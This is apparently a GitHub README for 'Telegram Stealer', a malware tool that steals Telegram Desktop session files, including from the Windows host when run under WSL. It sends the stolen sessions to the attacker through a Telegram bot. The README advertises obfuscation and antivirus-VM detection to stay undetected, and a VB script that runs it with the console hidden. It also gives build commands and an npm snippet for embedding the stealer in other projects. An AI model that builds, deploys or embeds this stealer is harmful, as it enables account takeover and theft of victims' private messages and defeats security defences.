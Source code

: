 # Telegram Stealer

Steal Telegram Desktop sessions.

If the stealer is started inside WSL, it will get the Telegram Desktop sessions from its Windows host.

**Note:** If the target configured a local password in Telegram Desktop, the sessions will be encrypted, so you would need the password to unlock it.

## Demo

https://youtu.be/3mKOwtCnwYw

## Features

- Steal Telegram Desktop sessions
- Works on all platforms, including WSL (on WSL, the binary will get the sessions from its Windows host)
- If Telegram Desktop is not in appData (i.e. portable installation), inspect the `Telegram.exe` running process to find its path (Windows or WSL only)
- Source is highly obfuscated using [javascript-obfuscator](https://github.com/javascript-obfuscator/javascript-obfuscator)
- Output binary is packaged to a single portable binary using [pkg](https://github.com/vercel/pkg)
- Send sessions via Telegram using webhooks
- Try to detect some anti-virus virtual machines to be FUD as long as possible

## Build

Install dependencies

```sh
npm i -D
npm i -g pkg
```

Build

```sh
npm run build <chat_id> <bot_token>

# Create the stealer binary, choose target system and architecture
npm run pkg-windows
npm run pkg-linux
npm run pkg-linux-arm
npm run pkg-macos
npm run pkg-macos-arm
```

## Run

Run the `hello` binary.

To hide the console window on a Windows machine, you can run the script using the provided VB script (see [`run_hidden_windows.vbs`](./run_hidden_windows.vbs)).

## Include in your project

```sh
npm install https://github.com/rigwild/telegram-stealer.git
```

```ts
import { run as stealTelegram } from 'telegram-stealer'

type StealTelegram = (telegramChatId: string, telegramToken: string, archivePassword?: string) => Promise<void>

await stealTelegram('<chat_id>', '<bot_token>', '<archivePassword>')
```

## Related projects

- [Waifu Stealer](https://github.com/rigwild/waifu-stealer) - Stealer builder (Browsers, Discord, Telegram, ...)
- [Discord Stealer](https://github.com/rigwild/discord-stealer) - Steal Discord tokens from clients and browsers

## License

[The MIT license](./LICENSE)
